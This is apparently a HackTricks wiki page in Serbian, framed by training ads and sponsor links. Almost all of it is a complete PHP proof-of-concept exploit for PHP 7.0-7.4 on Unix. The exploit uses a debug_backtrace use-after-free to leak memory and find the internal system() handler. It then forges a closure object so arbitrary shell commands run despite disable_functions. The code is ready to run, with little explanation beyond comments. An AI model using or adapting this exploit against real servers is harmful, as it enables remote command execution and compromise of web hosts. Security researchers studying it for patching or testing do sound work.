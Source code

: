 # disable\_functions bypass - PHP 7.0-7.4 (\*nix only)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## PHP 7.0-7.4 (\*nix only)

Sa [https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php](https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php)
```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
global $abc, $helper, $backtrace;

class Vuln {
public $a;
public function __destruct() {
global $backtrace;
unset($this->a);
$backtrace = (new Exception)->getTrace(); # ;)
if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
$backtrace = debug_backtrace();
}
}
}

class Helper {
public $a, $b, $c, $d;
}

function str2ptr(&$str, $p = 0, $s = 8) {
$address = 0;
for($j = $s-1; $j >= 0; $j--) {
$address <<= 8;
$address |= ord($str[$p+$j]);
}
return $address;
}

function ptr2str($ptr, $m = 8) {
$out = "";
for ($i=0; $i < $m; $i++) {
$out .= chr($ptr & 0xff);
$ptr >>= 8;
}
return $out;
}

function write(&$str, $p, $v, $n = 8) {
$i = 0;
for($i = 0; $i < $n; $i++) {
$str[$p + $i] = chr($v & 0xff);
$v >>= 8;
}
}

function leak($addr, $p = 0, $s = 8) {
global $abc, $helper;
write($abc, 0x68, $addr + $p - 0x10);
$leak = strlen($helper->a);
if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
return $leak;
}

function parse_elf($base) {
$e_type = leak($base, 0x10, 2);

$e_phoff = leak($base, 0x20);
$e_phentsize = leak($base, 0x36, 2);
$e_phnum = leak($base, 0x38, 2);

for($i = 0; $i < $e_phnum; $i++) {
$header = $base + $e_phoff + $i * $e_phentsize;
$p_type  = leak($header, 0, 4);
$p_flags = leak($header, 4, 4);
$p_vaddr = leak($header, 0x10);
$p_memsz = leak($header, 0x28);

if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
# handle pie
$data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
$data_size = $p_memsz;
} else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
$text_size = $p_memsz;
}
}

if(!$data_addr || !$text_size || !$data_size)
return false;

return [$data_addr, $text_size, $data_size];
}

function get_basic_funcs($base, $elf) {
list($data_addr, $text_size, $data_size) = $elf;
for($i = 0; $i < $data_size / 8; $i++) {
$leak = leak($data_addr, $i * 8);
if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
$deref = leak($leak);
# 'constant' constant check
if($deref != 0x746e6174736e6f63)
continue;
} else continue;

$leak = leak($data_addr, ($i + 4) * 8);
if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
$deref = leak($leak);
# 'bin2hex' constant check
if($deref != 0x786568326e6962)
continue;
} else continue;

return $data_addr + $i * 8;
}
}

function get_binary_base($binary_leak) {
$base = 0;
$start = $binary_leak & 0xfffffffffffff000;
for($i = 0; $i < 0x1000; $i++) {
$addr = $start - 0x1000 * $i;
$leak = leak($addr, 0, 7);
if($leak == 0x10102464c457f) { # ELF header
return $addr;
}
}
}

function get_system($basic_funcs) {
$addr = $basic_funcs;
do {
$f_entry = leak($addr);
$f_name = leak($f_entry, 0, 6);

if($f_name == 0x6d6574737973) { # system
return leak($addr + 8);
}
$addr += 0x20;
} while($f_entry != 0);
return false;
}

function trigger_uaf($arg) {
# str_shuffle prevents opcache string interning
$arg = str_shuffle(str_repeat('A', 79));
$vuln = new Vuln();
$vuln->a = $arg;
}

if(stristr(PHP_OS, 'WIN')) {
die('This PoC is for *nix systems only.');
}

$n_alloc = 10; # increase this value if UAF fails
$contiguous = [];
for($i = 0; $i < $n_alloc; $i++)
$contiguous[] = str_shuffle(str_repeat('A', 79));

trigger_uaf('x');
$abc = $backtrace[1]['args'][0];

$helper = new Helper;
$helper->b = function ($x) { };

if(strlen($abc) == 79 || strlen($abc) == 0) {
die("UAF failed");
}

# leaks
$closure_handlers = str2ptr($abc, 0);
$php_heap = str2ptr($abc, 0x58);
$abc_addr = $php_heap - 0xc8;

# fake value
write($abc, 0x60, 2);
write($abc, 0x70, 6);

# fake reference
write($abc, 0x10, $abc_addr + 0x60);
write($abc, 0x18, 0xa);

$closure_obj = str2ptr($abc, 0x20);

$binary_leak = leak($closure_handlers, 8);
if(!($base = get_binary_base($binary_leak))) {
die("Couldn't determine binary base address");
}

if(!($elf = parse_elf($base))) {
die("Couldn't parse ELF header");
}

if(!($basic_funcs = get_basic_funcs($base, $elf))) {
die("Couldn't get basic_functions address");
}

if(!($zif_system = get_system($basic_funcs))) {
die("Couldn't get zif_system address");
}

# fake closure object
$fake_obj_offset = 0xd0;
for($i = 0; $i < 0x110; $i += 8) {
write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
}

# pwn
write($abc, 0x20, $abc_addr + $fake_obj_offset);
write($abc, 0xd0 + 0x38, 1, 4); # internal func type
write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

($helper->b)($cmd);
exit();
}
```
{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
